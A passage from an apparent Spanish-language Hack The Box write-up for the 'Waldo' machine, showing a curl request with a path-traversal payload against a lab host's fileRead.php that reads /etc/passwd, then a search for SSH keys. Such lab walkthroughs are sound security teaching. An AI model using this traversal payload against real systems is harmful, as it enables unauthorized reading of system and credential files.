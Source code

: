 ## Shell as nobody

Vemos que solo existe el directorio de `nobody` que es un usuario a nivel de sistema

![](/assets/images/htb-writeup-waldo/web12.png)

```bash
❯ curl -s -X POST "http://10.129.156.20/fileRead.php" -d 'file=./.list/....//....//....//....//....//....//etc/passwd' | jq '.["file"]' -r | grep "sh$"
root:x:0:0:root:/root:/bin/ash
operator:x:11:0:operator:/root:/bin/sh
postgres:x:70:70::/var/lib/postgresql:/bin/sh
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
```

Si vemos si tiene una `id_rsa` vemos que no la tiene pero hay otro archivo interesante

![](/assets/images/htb-writeup-waldo/web13.png)
